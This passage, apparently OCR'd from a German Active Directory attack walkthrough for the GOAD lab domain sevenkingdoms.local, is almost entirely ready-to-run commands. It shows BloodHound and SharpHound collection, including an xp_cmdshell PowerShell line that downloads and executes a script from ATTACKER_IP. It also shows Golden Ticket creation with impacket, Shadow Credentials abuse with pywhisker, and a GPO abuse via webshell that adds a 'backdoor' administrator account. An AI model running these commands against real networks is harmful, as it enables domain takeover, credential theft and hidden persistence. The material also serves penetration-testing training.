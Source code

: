 #### Linux-basierte Datensammlung
```bash
# bloodhound.py verwenden
pip3 install bloodhound
bloodhound-python -d sevenkingdoms.local -u jon.snow -p password \
  -gc kingslanding.sevenkingdoms.local -c all

# Daten in BloodHound importieren
# Dateien: *_computers.json, *_users.json, *_groups.json, etc.
```

#### Windows SharpHound (falls RCE verfügbar)
```bash
# Via MSSQL xp_cmdshell
SQL> xp_cmdshell "powershell -Command \"IEX (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP:8000/SharpHound.ps1'); Invoke-BloodHound -CollectionMethod All\""

# Via WinRM (falls verfügbar)
evil-winrm -i 192.168.10.12 -u jon.snow -p password
*Evil-WinRM* PS> .\SharpHound.exe -c All --zipfilename bloodhound_data.zip
```

---

## Phase 5: Installation - Persistenz etablieren

### 1. Golden Ticket Attack
```bash
# KRBTGT Hash extrahieren (Domain Admin erforderlich)
python3 /usr/share/impacket/examples/secretsdump.py \
  sevenkingdoms.local/administrator:password@192.168.10.10

# Golden Ticket erstellen
python3 /usr/share/impacket/examples/ticketer.py \
  -nthash KRBTGT_NTLM_HASH -domain-sid S-1-5-21-... \
  -domain sevenkingdoms.local administrator

# Ticket verwenden
export KRB5CCNAME=administrator.ccache
python3 /usr/share/impacket/examples/wmiexec.py \
  sevenkingdoms.local/administrator@kingslanding.sevenkingdoms.local -k -no-pass
```

### 2. Shadow Credentials Attack
```bash
# Wenn WriteProperty/GenericAll auf User-Objekt
python3 pywhisker.py -d sevenkingdoms.local -u attacker -p password \
  --target khal.drogo --action add --filename shadow_cert.pfx
```

### 3. GPO Abuse (STARKWALLPAPER)
```bash
# Wenn Write-DACL auf GPO vorhanden
# SharpGPOAbuse über Webshell/WinRM ausführen
curl "http://192.168.10.12/webshell.aspx?cmd=.\SharpGPOAbuse.exe --AddComputerTask --TaskName='Backdoor' --Author='BUILTIN\Administrators' --Command='cmd.exe' --Arguments='/c net user backdoor P@ssw0rd /add && net localgroup administrators backdoor /add' --GPOName='STARKWALLPAPER'"
```

---